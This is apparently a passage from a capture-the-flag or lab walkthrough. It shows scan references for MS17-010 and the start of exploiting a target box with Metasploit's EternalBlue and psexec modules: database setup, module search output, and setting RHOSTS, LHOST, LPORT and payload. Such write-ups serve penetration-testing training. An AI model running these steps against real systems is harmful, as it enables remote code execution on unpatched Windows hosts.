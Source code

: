 ```bash
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

## GAIN ACCESS

1. Start Metasploit. One can doing it by simply _msfconsole_ command. But there is a better way to load the _msfdb_ first to have faster access. Metasploit is a great tool. Use it like any other. Doesn't make you a script kiddie :)

**Output**

```bash
$ sudo msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
$ sudo msfdb run
[i] Database already started
```

2. We use the _eternalblue_ one but actually the _psexec_ is the **most stable** version of the exploit. It should be used in normal scenarios. 

**OUTPUT**

```bash
msf5 > search ms17-010

Matching Modules
================

#  Name                                      Disclosure Date  Rank     Check  Description
-  ----                                      ---------------  ----     -----  -----------
0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

3. _RHOSTS_ is the only flag required and not set. One can make additional chages to flags like _LHOST_ and _PAYLOAD_. We set RHOST to $BOX_IP and run the exoplit. I also set 	my _LPORT_ to 9999. 
